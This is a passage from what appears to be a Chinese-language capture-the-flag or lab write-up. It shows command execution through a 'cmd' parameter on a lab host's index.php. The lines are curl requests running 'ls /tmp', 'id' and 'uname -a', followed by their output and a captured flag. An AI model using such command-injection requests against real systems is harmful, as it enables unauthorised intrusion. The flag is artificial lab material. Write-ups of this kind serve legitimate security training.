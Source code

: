   通过执行 `ls /tmp` 命令,我们直接获得了flag: `flag-{bmha755c46b-7381-4beb-9495-c15d83956d7e}`

  ![1748019835789](image/第一层两靶标攻击与利用检测/1748019835789.png)
* **漏洞验证补充**：
  虽然我们已经获得了flag,但为了完整验证该漏洞的利用面,我们可以尝试执行其他系统命令:

  ```bash
  # 确定当前用户和权限
  curl "http://10.37.133.3:8630/index.php?cmd=id"
  ```

  返回结果显示为 www-data 用户:

  ```
  index.php?cmd=ls /tmpuid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

  ![1748017681838](image/第一层两靶标攻击与利用检测/1748017681838.png)

  ```bash
  # 查看系统信息
  curl "http://10.37.133.3:8630/index.php?cmd=uname%20-a"
  ```

  返回结果显示系统信息:

  ```
  index.php?cmd=ls /tmpLinux c93755678f6c 5.10.0-26-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64 GNU/Linux
  ```
